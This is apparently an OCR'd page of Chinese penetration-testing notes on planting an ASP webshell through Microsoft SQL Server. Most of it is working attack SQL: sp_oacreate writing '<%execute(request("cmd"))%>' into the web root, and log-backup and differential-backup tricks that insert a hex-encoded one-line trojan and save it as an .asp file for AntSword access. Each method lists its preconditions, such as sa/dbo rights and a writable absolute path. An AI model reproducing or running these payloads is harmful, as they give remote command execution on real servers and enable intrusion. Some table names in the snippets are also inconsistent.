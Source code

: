 - sp_oacreate

- ```sql
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/inetpub/wwwroot/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  ```

- 本地存储过程CLR:直接利用sharpsqltools执行命令写shell进行利用

- `log备份`写shell

- ```sql
  #优点
  - 重复性好,多次备份成功率高
  - 相对于差异备份而言,shell的体积较小
  
  #利用条件
  - DBO权限,默认SA也可
  - 知道绝对路径,并且可写
  - 站库不分离,数据库跟网站在同一台服务器
  - 数据库必须被备份过一次
  
  use test;	//选中数据库
  alter database test set recovery full;	//设置恢复模式
  if exists(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;
  create table test_tmp (a image);	//新建临时表
  backup log test to disk = 'C://inetpub//wwwroot//asp.bak' with init;	//备份日志到指定路径
  insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);
  backup log test to disk = 'C://inetpub//wwwroot//123.asp'; -->连接`蚁剑`密码为a
  ```

- `差异备份`写shell

- ```sql
  #差异备份条件
  - dbo权限
  - 知道绝对路径,可写
  - http 500 错误不是自定义
  - web和数据库在一块.还有的就是数据库不能存在%号特殊字符
  - 数据量不能太大
  - Tips: 差异备份写shell容错率相对较差,通常利用存储过程日志备份写shell更为快捷键
  
  use test;	//选中库
  backup database test to disk = 'c://inetpub//wwwroot//mssql1.bak';	//手动备份一次
  create table test..test1(a image);	//新建临时表
  insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253EDA);	//插入一句话木马到表中,注意16进制
  backup database test to disk = 'c://inetpub//wwwroot//shell.asp' with differential.format;	//进行差异化备份
  drop table test..test1;	//备份完getshell后删除表
  ```

  